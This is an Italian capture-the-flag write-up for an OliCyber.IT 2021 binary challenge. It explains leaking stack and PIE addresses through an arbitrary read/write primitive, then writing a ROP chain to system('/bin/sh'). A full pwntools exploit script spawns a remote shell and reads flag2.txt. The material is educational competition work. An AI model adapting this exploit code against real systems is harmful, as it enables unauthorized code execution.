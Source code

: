 # OliCyber.IT 2021 - Competizione nazionale

## [binary-4] I predatori dell'indirizzo perduto 2 (10 risoluzioni)

La seconda flag, `flag2.txt`, si trova sul server remoto, quindi dovremo ottenere RCE e leggere la flag.

### Soluzione

Per ottenere code execution possiamo sfruttare la primitiva di arbitrary write e scrivere una ropchain sullo stack.  
L'ELF della challenge è compilato con `-static-pie`. Quindi se vogliamo chiamare la `system()` dobbiamo prima leakare il base address del binario.

Usando la stessa tecnica di prima possiamo leggere lo stack cercando di leakare gli indirizzi dello stack e di PIE.  
Una volta leakati possiamo scrivere una semplice ropchain del tipo:

```
POP_RDI_RET + "/bin/sh" + system()
```

- Il gadget `POP_RDI_RET` lo troviamo dentro al binario.
- La stringa `/bin/sh` è presente nel binario per via della seguente print nel main:

```c
bputs("... dovunque, non otterrai mai /bin/sh"); // <---
```

- La funzione `system` è stata inclusa nel binario per via del seguente codice presente nella funzione `motd`:

```c
void motd() {
  char* succ = NULL;
  char buf[0x20];
  bputs("Come si chiama l'attore che interpreta il padre di Indiana Jones, ma che cerca di usare race conditions?");
  succ = fgets(buf, 0x20, stdin);
  if (succ == NULL) {
    ERR("Reading actor");
  }
  if (strstr(buf, "Sean Concurrency")) {
    bputs("Ottima risposta, sei un uomo istruito");
    system("cat flag.txt"); // <---- (flag.txt non è la flag)
    bputs("https://i.ytimg.com/vi/vf1L8Jsw0QY/mqdefault.jpg");
  } else {
    bputs("Nope, try again");
  }
  return;
}
```

### Exploit

Estrae sia la prima che la seconda flag.

```py
#!/usr/bin/env python
from pwn import ELF, context, args, gdb, remote, process, log, \
    p64, u64, ui, ROP


gdbscript = """
gef config context.nb_lines_stack 10
b *main + 287
continue
"""
filename = "predatori"
exe = context.binary = ELF(filename)
remotehost = ("predatori.challs.olicyber.it", 15006)


def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(*remotehost, *a, **kw)
    else:
        try:
            with open("gdbscript.txt", "w") as outfile:
                outfile.write(gdbscript)
        except PermissionError:
            log.warn("PermissionError opening gdbscript.txt file")
        return process([exe.path] + argv, *a, **kw)


def menu(choice: int):
    io.sendlineafter("3) Esci", f"{choice}")


def write(what, where):
    menu(2)
    io.sendafter("Indirizzo:", where)
    io.sendafter("bytes:", "8")
    io.sendafter("scrivere?", what)
    io.recvuntil("Fatto")
    io.recvline()


def read(where):
    menu(1)
    io.sendafter("Indirizzo:", where)
    io.recvuntil("richiesta.")
    io.recvline()
    return io.recvline().replace(b"1) LeggiCosaDove\n", b"")


def leak_stack_and_exe():
    flag1 = b""
    flag_started = False
    flag_start_offset = -1
    leaked_bytes_store = []
    for i in range(0, 255, 8):
        leaked_bytes = read(bytes([i]))
        log.debug(f"leaked addr: {leaked_bytes}")
        if b"flag{" in leaked_bytes:
            flag_started = True
            flag_start_offset = i
        if flag_started:
            flag1 += leaked_bytes
        if b"\x00" in leaked_bytes:
            flag_started = False
        leaked_bytes_store.append(leaked_bytes)
    flag1 = flag1.replace(b"\x00", b"").strip().decode()
    if flag_start_offset == -1:
        log.error("Flag1 not found")
    else:
        log.success(f"First flag: {flag1}")

    handle_address_exe(flag_start_offset, leaked_bytes_store)
    log.success(f"Broke ASLR for exe, {exe.address:#016x}")
    stack = handle_address_stack(flag_start_offset, leaked_bytes_store)
    log.success(f"Leaked stack address: {stack:#016x}")
    return stack


def handle_address_stack(flag_start_offset, leaked_bytes_store):
    addr_gut = (flag_start_offset - 0x20)//8
    if addr_gut > 0:
        return u64(leaked_bytes_store[addr_gut].ljust(8, b"\x00")) + 8
    log.error("Address of stack not found")


def handle_address_exe(flag_start_offset, leaked_bytes_store):
    addr_gut = (flag_start_offset + 0x40)//8
    if addr_gut < 16:
        exe.address = u64(leaked_bytes_store[addr_gut].ljust(8, b"\x00")) - exe.sym['__libc_csu_init']
        return
    addr_gut = (flag_start_offset - 0x18)//8
    if addr_gut > 0:
        exe.address = u64(leaked_bytes_store[addr_gut].ljust(8, b"\x00")) - (exe.sym['main'] + 267)
        return
    log.error("Address of exe not found.")


def chunks(lst, n):
    """Yield successive n-sized chunks from lst."""
    for i in range(0, len(lst), n):
        yield lst[i:i + n]


def exec_shell(stack):
    rop = ROP(exe)
    rop.call(exe.sym.system, [next(exe.search(b"/bin/sh"))])
    rop = rop.chain()
    for i, val in enumerate(chunks(rop, 8)):
        log.debug(f"Writing {i + 1}/{len(rop)}")
        write(val, p64(i*8 + stack))
    log.info("ROP written, exiting")
    menu(3)


if __name__ == "__main__":
    io = start()

    menu(0)
    io.sendlineafter("Jones", "aaaaa")
    stack = leak_stack_and_exe()
    exec_shell(stack)
    io.sendline("cat flag2.txt")

    io.interactive()
```
